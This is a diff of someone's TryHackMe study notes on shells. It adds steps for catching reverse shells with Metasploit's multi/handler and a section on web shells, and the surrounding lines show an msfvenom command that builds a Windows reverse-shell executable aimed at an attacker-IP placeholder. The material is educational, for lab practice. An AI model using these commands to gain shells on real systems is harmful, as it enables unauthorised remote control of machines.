

Before and after one commit to ziadhamdy88/THM, a Markdown page: Notes/Shells.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Added notes about Web Shells!

```diff
--- a/Notes/Shells.md
+++ b/Notes/Shells.md
@@ -98,11 +98,18 @@
 		- `exploit/multi/handler` module, used to receive reverse shells.
 		- The only way to interact with a `meterpreter` shell.
 		- The easiest way to handle staged payloads.
+		- 3 options we need to set when using multi/handler
+			- `set payload <payload>`
+			- `set lhost <attacker-ip>`
+			- `set lport <attacker-port>`
+		- The payload should be set according to the type of shell to be used.
+		- Then use `exploit -j` to launch the module, running as a job in the background.
+		- Using `sessions` to list the sessions and `sessions <session-id>` to foreground the session.
 	- #### Msfvenom
 		- Generates payload like reverse shells, bind shells and many more.
 		- `msfvenom -p <payload> <options>`.
 		- `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe lhost=<attacker-ip> lport=<attacker-port>`.
-			- `-f` output format, `exe, elf, aspx, war, py`.
+			- `-f` output format, like `exe, elf, aspx, war, py`.
 		- **Staged**
 			- Payloads are sent in two parts
 				- The first part is called the stager, piece of code executed directly on the target itself. Connects back to a waiting listener, but doesn't actually contain any reverse shell code. Used to load the real payload, executing it directly and preventing it from touching the disk where it could get caught by anti-virus solutions.
@@ -118,3 +125,8 @@
 				- A Windows 64 bit staged Meterpreter payload `windows/x64/meterpreter/reverse_tcp`.
 				- A Linux 32 bit stageless Meterpreter payload `linux/x86/meterpreter_reverse_tcp`.
 		- List payloads with `msfvenom --list payloads`.
+	- ### *WebShells*
+		- When we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a web shell.
+		- A script that runs inside a web server (usually in a language such as PHP or ASP) which executes code on the server.
+		- Essentially, commands are entered into a web page, either through a HTML form, or directly as arguments in the URL,  which are then executed by the script, with the results returned and written to the page.
+		- Web shells on Kali are located in `/usr/share/webshells`.
```
